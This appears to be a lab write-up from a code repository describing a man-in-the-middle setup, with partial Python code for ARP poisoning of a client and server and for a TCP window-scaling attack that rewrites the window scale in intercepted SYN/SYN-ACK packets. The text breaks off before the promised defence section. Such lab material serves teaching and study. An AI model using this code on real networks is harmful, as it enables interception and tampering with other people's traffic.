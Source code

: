 # MITM TCP Lab: Window Scaling Attack & ARP Poisoning


## Detailed Lab Process: ARP Poisoning, TCP Window Scaling Attack, and Defence

### 1. ARP Poisoning (`attacker-code/tcp_arp_poison.py`)
```python
import socket
import struct
import time

def send_arp_poison(target_ip, spoof_ip, interface):
    # Build ARP reply packet
    # ...existing code to construct ARP reply...
    sock = socket.socket(socket.AF_PACKET, socket.SOCK_RAW)
    sock.bind((interface, 0))
    while True:
        sock.send(arp_packet)
        time.sleep(2)

# Poison both client and server ARP tables
send_arp_poison(client_ip, server_ip, interface)
send_arp_poison(server_ip, client_ip, interface)
```
- The attacker sends spoofed ARP replies to both the client and server, claiming to be the other party.
- This poisons their ARP tables, causing all traffic between them to be routed through the attacker (MITM).
- The attacker can now intercept, modify, or forward packets as desired.

### 2. TCP Window Scaling Attack (`attacker-code/tcp_window_attack.py`)
```python
# Sniff and filter TCP SYN/SYN-ACK packets
packet, _ = sock_sniff.recvfrom(65535)
ip_header = packet[14:34]
iph = struct.unpack(IP_HEADER, ip_header)
if iph[6] != 6:  # Not TCP
    continue
src_ip = socket.inet_ntoa(iph[8])
dst_ip = socket.inet_ntoa(iph[9])

# Randomly modify 50% of SYN/SYN-ACK packets
if (src_ip == client_ip and dst_ip == server_ip) or (src_ip == server_ip and dst_ip == client_ip):
    parsed = parse_tcp_packet(packet[14:])
    if parsed['flags'] == 0x02 or parsed['flags'] == 0x12:
        if random.random() < 0.5:
            print(f"Intercepted SYN/SYN-ACK (MODIFIED): {src_ip}:{parsed['src_port']} -> {dst_ip}:{parsed['dst_port']}")
            new_packet = craft_tcp_packet(parsed, window_scale=0)
            sock_send.sendto(new_packet, (parsed['dst_ip'], 0))
            print("Sent modified packet with Window Scale = 0")
        else:
            print(f"Intercepted SYN/SYN-ACK (UNMODIFIED): {src_ip}:{parsed['src_port']} -> {dst_ip}:{parsed['dst_port']}")
            sock_send.sendto(packet[14:], (parsed['dst_ip'], 0))
    else:
        sock_send.sendto(packet[14:], (parsed['dst_ip'], 0))
```
- The attacker sniffs packets on the network interface and filters for TCP SYN and SYN-ACK packets between the client and server.